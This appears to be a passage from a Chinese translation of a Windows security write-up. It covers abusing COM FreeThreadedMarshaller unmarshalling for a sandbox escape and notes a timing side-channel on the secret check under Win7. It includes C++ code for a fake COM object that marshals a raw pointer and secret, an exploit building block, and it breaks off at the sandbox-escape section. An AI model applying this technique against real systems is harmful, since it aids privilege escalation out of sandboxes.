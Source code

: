 注意这个方法会检测秘密值（secret）是否已经初始化，这可以阻止攻击者使用一个未初始化的秘密值（也即0）。还有需要注意的是需要使用一个安全的字符比较函数以免受到针对秘密值检查的时差攻击。事实上这是一个非向后移植的修复。在win7上，字符串比较使用的是repe cmdsd指令，这个并不是线性时间的比较（*译注：指非原子操作）。因此在win7上你也许可以一次旁路时差攻击，虽然我觉得这个肯定巨费事。

最后这个结构看起来像是：

![enter image description here](http://drops.javaweb.org/uploads/images/1f9787971f31bf6d2f93a00ec65d798104ccd91c.jpg)

为了执行我们的代码，我们需要在我们的com对象中调用IMarshal接口。特别是我们需要执行两个函数，Imarshal::GetUnmarshalClass，当重构建代码的时候，会用到它返回要使用的COM对象的CLSID。IMarshal::MarshalInterface，用来为漏洞打包合适的指针值。简单的例子如下：

```
GUID CLSID_FreeThreadedMarshaller = 
{ 0x0000033A, 0x0000, 0x0000, 
{ 0xC0, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x46, } };


HRESULT STDMETHODCALLTYPE CFakeObject::GetUnmarshalClass(
REFIID riid,
void *pv,
DWORD dwDestContext,
void *pvDestContext,
DWORD mshlflags,
CLSID *pCid)
{
memcpy(pCid, &CLSID_FreeThreadedMarshaller, 
sizeof(CLSID_FreeThreadedMarshaller));


return S_OK;
}


HRESULT STDMETHODCALLTYPE CFakeObject::MarshalInterface(
       IStream *pStm,
       REFIID riid,
       void *pv,
       DWORD dwDestContext,
       void *pvDestContext,
       DWORD mshlflags)
{
  pStm->Write(&_mshlflags, sizeof(_mshlflags), NULL);
  pStm->Write(&_pv, sizeof(_pv), NULL);
  pStm->Write(&_secret, sizeof(_secret), NULL);


  return S_OK;
}

```

够简单了吧，我们看看怎么用它。

0x03 脱离沙盒
=========
